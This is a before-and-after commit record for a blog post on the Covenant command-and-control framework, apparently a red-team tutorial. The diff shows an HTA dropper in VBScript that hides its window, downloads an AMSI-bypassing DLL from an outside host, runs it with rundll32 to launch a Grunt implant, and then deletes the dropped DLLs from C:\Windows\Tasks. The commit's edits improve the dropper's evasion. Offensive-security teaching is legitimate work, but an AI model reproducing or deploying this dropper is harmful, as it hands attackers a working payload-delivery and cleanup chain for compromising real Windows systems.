

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-07-01-Entering-the-Covenant-C2C.md, in a window 1280 px wide and 1400 px high, scrolled down 17166 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-07-01-Entering-the-Covenant-C2C.md

````diff
--- a/_posts/2021-07-01-Entering-the-Covenant-C2C.md
+++ b/_posts/2021-07-01-Entering-the-Covenant-C2C.md
@@ -633,17 +633,19 @@ If we press the Enable Content button, the macro will execute and the message bo
 First of all we need to craft our HTA (first stage) file that will deliver our Grunt payload (Second stage. An example follow below:
 
 ```html
-
 <!DOCTYPE html>
 <html>
+<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
 <head>
 <HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" />
 <script type="text/vbscript">
 
+
+
 ' ===================================
 ' Download Clause
 ' Tested with binaries - works!
-HTTPDownload "http://192.168.152.100:1234/covenant-DLL-noAmsi.dll", "C:\tmp\"
+HTTPDownload "http://192.168.152.100:1234/covenant-DLL-noAmsi.dll", "C:\Windows\Tasks"
 
 Sub HTTPDownload( myURL, myPath )
 
@@ -691,7 +693,12 @@ End Sub
 Dim sh
 Set sh = CreateObject("Wscript.Shell")
 Call sh.Run("rundll32 covenant-DLL-noAmsi.dll,MonkEntry")
+'sh.Run("calc")
+target_folder = "C:\Windows\Tasks"
+Set fs = CreateObject("Scripting.Filesystemobject")
+fs.DeleteFile( target_folder & "\*.dll" )
 Set sh = Nothing
+
 </script>
 </head>
 <body>
````
